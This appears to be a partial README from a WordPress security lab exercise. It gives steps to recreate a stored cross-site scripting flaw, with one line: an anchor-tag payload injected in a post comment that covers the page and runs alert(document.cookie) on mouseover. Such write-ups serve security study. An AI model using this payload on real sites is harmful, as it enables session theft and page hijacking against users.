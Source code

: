   - [ ] GIF Walkthrough: <img src="legacy.gif" width="800">
  - [ ] Steps to recreate:Inject the following script in a post comment <a href='/wp-admin/' title="" 
                             style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(document.cookie)//'>Test</a> 
  - [ ] Affected source code:Preview theme function
    - [Link 1](https://core.trac.wordpress.org/browser/trunk/src/wp-includes/theme.php)

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]
